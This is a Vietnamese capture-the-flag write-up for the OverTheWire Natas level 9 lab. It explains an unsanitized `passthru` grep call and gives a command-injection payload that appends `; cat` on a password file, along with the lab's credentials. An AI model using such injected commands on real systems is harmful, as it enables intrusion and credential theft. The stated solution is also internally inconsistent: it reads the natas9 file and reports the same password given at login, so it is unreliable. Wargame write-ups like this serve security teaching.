 ## 🕵️‍♂️ Challenge:
Username: natas9  
Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t  
URL: http://natas9.natas.labs.overthewire.org  

<img width="1467" height="535" alt="image" src="https://github.com/user-attachments/assets/929a4e70-ad12-4bfc-a851-a12977e1d6af" />


## 📝 Solution: 
Xem source code:  

<img width="1363" height="840" alt="image" src="https://github.com/user-attachments/assets/0ce75a45-bf1f-4134-b028-71ba05998e8f" />

Ta có thể thấy vấn đề:  
Khi chuỗi người dùng nhập vào khác rỗng, `passthru("grep -i $key dictionary.txt");` sẽ chèn trực tiếp giá trị user nhập vào shell command → lỗ hỏng command injection.  
Ta chỉ cần nhập chuỗi ***; cat /etc/natas_webpass/natas9***, khi đó lệnh sẽ trở thành:  
```bash
grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
Điều này sẽ thực hiện 2 lệnh grep và cat riêng biệt, từ đó có thể cat được pass.  

<img width="771" height="297" alt="image" src="https://github.com/user-attachments/assets/666b0ebf-46e9-44aa-bf3c-43df4cf4787d" />

<img width="1686" height="860" alt="image" src="https://github.com/user-attachments/assets/c97488cc-b371-42f7-8680-435eaddb0b20" />

>### 🎯 Password: ***ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t***
